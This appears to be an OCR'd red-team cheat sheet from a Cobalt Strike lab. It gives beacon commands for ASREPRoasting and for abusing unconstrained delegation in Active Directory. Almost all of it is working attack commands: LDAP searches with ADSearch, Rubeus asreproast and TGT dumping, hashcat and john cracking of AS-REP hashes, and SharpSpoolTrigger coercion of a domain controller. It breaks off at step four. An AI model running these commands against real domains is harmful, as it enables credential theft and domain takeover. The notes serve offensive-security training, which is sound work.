     # ASREPRoast
    beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" --attributes cn,distinguishedname,samaccountname
    # To avoid Honeypot accounts, few enumerations can be performed
    beacon> powerpick Get-DomainUser -Identity mssql_svc,squid_svc,honey_svc | select samaccountname,logoncount,badpasswordtime,lastlogontimestamp,lastlogoff,lastlogon,badpwdcount,whencreated,pwdlastset
    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asreproast /user:squid_svc /nowrap
      
    ps> hashcat -a 3 -m 18200 svc_oracle wordlist
    ps> john --format=krb5asrep --wordlist=wordlist squid_svc

    Unconstrained Delegation

    # Unconstrained Delegation (Caches TGT of any user accessing its service)
      
    # 1. Identify the computer objects having Unconstrained Delegation enabled
    beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname
      
    # 2. Dumping the cached TGT ticket (requires system access on affected system)
    beacon> getuid
    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x14794e /nowrap
    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /interval:10 /nowrap
      
    # 3. Execute PrintSpool attack to force DC to authenticate with WEB 
    beacon> execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe dc-2.dev.cyberbotic.io web.dev.cyberbotic.io
      
    # 4 (a). For MACHINE TGT : Use Machine TGT (DC) fetched to gain RCE on itself using S4U abuse (/self flag)
    # NOTE: A machine account TGT ticket if injected will not work probably, So we have to  abuse S4U2SELF to obtain TGS and get access as Local Admin to that machine.
    # Verify this by injecting the TGT insto a sacrificial process and try to access the files. Check S4U2Self Notes below.
      
